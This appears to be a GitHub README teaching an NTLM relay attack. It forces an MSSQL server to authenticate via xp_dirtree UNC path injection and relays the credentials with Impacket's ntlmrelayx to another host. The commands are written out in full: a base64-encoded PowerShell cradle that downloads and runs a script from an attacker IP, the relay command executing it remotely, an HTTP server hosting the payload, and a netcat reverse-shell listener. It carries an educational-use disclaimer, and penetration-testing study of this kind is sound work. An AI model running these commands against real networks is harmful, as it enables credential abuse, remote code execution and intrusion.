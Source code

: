 # 🎯 UNC Path Injection & NTLM Relay Attack with Impacket

This repository demonstrates a powerful internal network attack technique where we force a victim host to authenticate to a malicious SMB server and relay that NTLM authentication to a second system for **remote code execution**, all **without cracking the hash**.

This method is ideal in environments where:
- A **shared service account** is used on multiple systems.
- **SMB signing is disabled** on the relay target.
- AppLocker or other controls block direct binary execution.

---

## 📌 Objective

Relay a captured **Net-NTLM hash** from a machine (e.g. DC or SQL Server) to another host where the user has **local admin rights**, and gain **code execution** via `ntlmrelayx`.

---

## ⚙️ Environment Setup

- Attacker Machine: Kali Linux
- Victim 1: SQL Server with a service account (e.g. `SQLSVC`)
- Victim 2: Another internal system (e.g. `appsrv01`) where `SQLSVC` is local administrator
- SMB signing is **disabled** on the second target
- Ligolo proxy or reverse shell server is listening

---

## 🔐 UNC Relay Attack

### 1. Base64-encode the PowerShell download cradle

```bash
echo -n "IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.100/shell.ps1')" | iconv -t utf-16le | base64 -w 0; echo
```

**Output:**
```
SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANgA0AC8AcwBoAGUAbABsAC4AcABzADEAJwApAA==
```

---

### 2. Launch `ntlmrelayx` to relay the hash and execute the command

```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.206.151 -c 'powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANgA0AC8AcwBoAGUAbABsAC4AcABzADEAJwApAA=='
```

- `--no-http-server`: disables automatic HTTP listener since we serve our own shell script.
- `-smb2support`: required for modern Windows hosts (SMBv2+).
- `-t`: the target machine where code execution will happen.
- `-c`: command to execute on the target (reverse shell loader).

---

### 3. Host your reverse shell payload (`shell.ps1`)

```bash
python3 -m http.server 80
```

Make sure `shell.ps1` contains your PowerShell reverse shell or loader.

---

### 4. Trigger the authentication from victim SQL host

Use the classic **UNC Path Injection** via MSSQL:

```sql
EXEC master..xp_dirtree '\\192.168.1.94\test'
```

This will cause the SQL Server to connect to your SMB listener, and **ntlmrelayx will relay the authentication** to the second machine (`appsrv01`) and execute the reverse shell.

---
### 4. Start a listener for the reverse shell

```bash
rlwrap -cAr nc -lnvp 443

```

---

## 🧠 Notes

- This technique **does not require cracking the Net-NTLM hash**.
- It works only if:
  - The relayed user is **admin** on the target.
  - **SMB signing is disabled** on the target.
- The command being relayed (`-c`) can be anything the user is authorized to run (PowerShell, HTA, etc.)

---

## ⚠️ Disclaimer

This technique is provided **for educational and authorized testing only**. Do not attempt this attack outside a controlled environment where you have explicit permission to do so.

---


